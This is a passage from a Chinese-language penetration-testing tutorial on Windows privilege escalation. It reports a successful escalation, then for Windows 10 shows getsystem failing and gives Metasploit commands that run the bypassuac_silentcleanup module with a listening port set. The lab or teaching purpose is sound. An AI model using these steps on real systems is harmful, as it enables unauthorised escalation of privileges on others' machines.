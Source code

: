 #### 2.2.1.5. 查看反弹效果

通过反弹回来的效果能够看到，成功提权了。

![image-20230329092520594](assets/iPIBnpELd5cDoRw.png)

### 2.2.2. Windows10系统案例

这里还是使用默认的UAC等级进行提权。

#### 2.2.2.1. 尝试getsystem提权

可以看到，这里同样是提权失败。

![image-20230329094116483](assets/BEpiQz2uRfH1sZS.png)

#### 2.2.2.2. 尝试使用UAC绕过提权

这里我也是尝试了好几个bypass才成功的，环境不同，可能使用到的bypass也是不同的，有些bypass需要也能提权，但是需要点击确定，所以多尝试尝试。

```
use exploit/windows/local/bypassuac_silentcleanup   ##选择模块
sessions    ##选择会话
set session 5   ##设置会话
set lport 6666  ##设置监听端口
run   ##执行
```
